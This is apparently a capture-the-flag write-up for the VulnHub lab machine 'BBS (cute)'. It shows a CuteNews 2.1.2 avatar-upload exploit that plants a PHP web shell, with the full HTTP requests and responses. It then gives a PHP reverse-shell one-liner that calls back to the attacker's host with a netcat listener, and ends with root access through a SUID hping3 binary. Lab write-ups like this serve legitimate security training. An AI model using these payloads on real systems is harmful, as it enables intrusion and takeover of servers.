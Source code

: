 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/bbs-cute-102,567/)

# discovery
## portscan
Starting with a simple port scan to identify the attack surface.
```bash
$ nmap -Pn 192.168.55.128
```
- 22 (OpenSSH)
- 80 (Apache)
- 88 (Nginx)
- 110 (pop3)
- 995 (pop3)

## web application
Use some kind of dir busting tool like `gobuster` or `dirb` to identify the `index.php`  
> cutenews 2.1.2 is installed on the target.
{: .prompt-info }

---

# exploitation
`cutenews 2.1.2` is vulnerable to a [rce](https://www.exploit-db.com/exploits/48800) via file upload.

1. register a new account
2. perform an avatar upload to upload a shell

```http
POST /index.php HTTP/1.1
Host: 192.168.55.128
Content-Length: 1199
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.55.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPcKAGDM5KHHUBCDz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.55.128/index.php?mod=main&opt=personal
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="mod"

main
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="opt"

personal
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_key"

61617a044cb8af8982f290744a00cd7a-hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_dsi"

db5cf5e82f5e647c292b0a2587709c4f
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="confirmpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editnickname"

hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="avatar_file"; filename="shell.php"
Content-Type: image/gif

GIF8;\n<?php system($_REQUEST['cmd']); ?>

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[site]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[about]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz--

```

The Server responds with a `200` message, which might be a good indication that everything worked as expected.

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:47:07 GMT
Server: Apache/2.4.38 (Debian)
Expires: Sat, 26 Jul 1997 05:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: sameorigin
Last-Modified: Thu, 20 Jan 2022 20:47:07 GMT
Cache-Control: post-check=0, pre-check=0
Accept-Charset: UTF-8
Vary: Accept-Encoding
Content-Length: 7553
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
...
```

Test command execution.

```http
GET /uploads/avatar_hacker_shell.php?cmd=whoami HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:52:09 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 16
Connection: close
Content-Type: text/html; charset=UTF-8

GIF8;\nwww-data
```

It worked!

---

# post exploitation
## get a reverse shell
We are using a simple `PHP` based reverse shell here.  
payload: ```php -r '$sock=fsockopen("192.168.49.89",443);exec("/bin/sh -i <&3 >&3 2>&3");'```

### start listener on the attacking machine
```bash
$ nc -lvp 443
listening on [any] 443 ...
```

### trigger reverse shell
```http
GET /uploads/avatar_hacker_shell.php?cmd=php+-r+'$sock%3dfsockopen("192.168.49.55",443)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
````

### catch connect from target
```bash
$ nc -lvp 443
listening on [any] 443 ...
192.168.55.128: inverse host lookup failed: Unknown host
connect to [192.168.49.55] from (UNKNOWN) [192.168.55.128] 36152
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## get first flag
```bash
$ pwd
/var/www
$ cat local.txt
1*******************************c
```

## privilege escalation
Looking for SUID binaries.
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root root 156808 Sep  6  2014 /usr/sbin/hping3
...
```
Looking on [gtfobins](https://gtfobins.github.io/) on how to exploit `hping3` to get root access

```
$ /usr/sbin/hping3
hping3> /bin/sh -p
# whoami
root
```

We got root!

## get second flag
```bash
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
Your flag is in another file...
# cat proof.txt
a*****************************b
```
  
Pwned! <@:-)
